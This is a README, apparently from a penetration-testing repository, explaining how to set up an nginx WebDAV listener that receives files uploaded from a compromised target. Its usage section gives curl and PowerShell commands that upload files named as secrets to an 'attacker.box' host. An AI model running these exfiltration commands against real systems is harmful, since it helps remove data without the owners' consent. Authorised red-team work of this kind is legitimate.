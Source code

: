 # nginx File Listener
This is an nginx configuration that you can use to set up a server to receive files from a
target over HTTP.  Most targets can talk out over HTTP, so this helps if you have limited options
to transfer files from a target.

## Requirements
You will need an nginx server set up with the WebDAV module built in.  Kali Rolling (as of September 2018) has this module built in.  If you get an error from nginx that ```dav_methods``` is not valid, you will likely need to build a version of nginx that has this module built in.  You can use the ```--with-http_dav_module``` configuration parameter to build the module in at compile time:

```bash
./configure --with-http_dav_module
```

## Installation
1.  Create a directory to receive your uploads in and make sure the user running nginx has permission to write to this folder.  nginx runs as the ```www-data``` user on Kali.  Make sure line 40 of nginx_file_listener reflects the path you choose.
2.  Modify lines 28 and 31 if you want to change the port that the server listens on (default is 8001).
3.  Copy nginx_file_listener to ```/etc/nginx/sites-available```.
4.  Create a symlink to nginx_file_listener in /etc/nginx/sites-enabled.
    ```bash
    ln -s /etc/nginx/sites-available/nginx_file_listener /etc/nginx/sites-enabled
    ```
5.  Restart nginx
    ```bash
    systemctl restart nginx
    ```
6.  Make sure nginx is listening on the port you chose:
    ```bash
    netstat -anp | grep 8001

    # You can also use ss
    ss -tap | grep 8001
    ```

## Usage
You can upload files to the server using curl from a Linux box:
```bash
curl --upload-file <file_name> http://<server_IP>:<port>/<path>

# Example
curl --upload-file awesome_secrets http://attacker.box:8001/secretfiles
```

The example will upload the file ```awesome_secrets``` to ```/var/www/uploads/secretfiles/awesome_secrets``` on the server.

On Windows, you can use the following bit of PowerShell (requires PowerShell 3.0+):
```powershell
Invoke-RestMethod -Uri http://<server_IP>:<port>/<path>/<file name> -Method Put -InFile <path to file>

# Example
Invoke-RestMethod -Uri http://attacker.box:8001/secretfiles/awesomesecrets -Method Put -InFile awesomesecrets
```
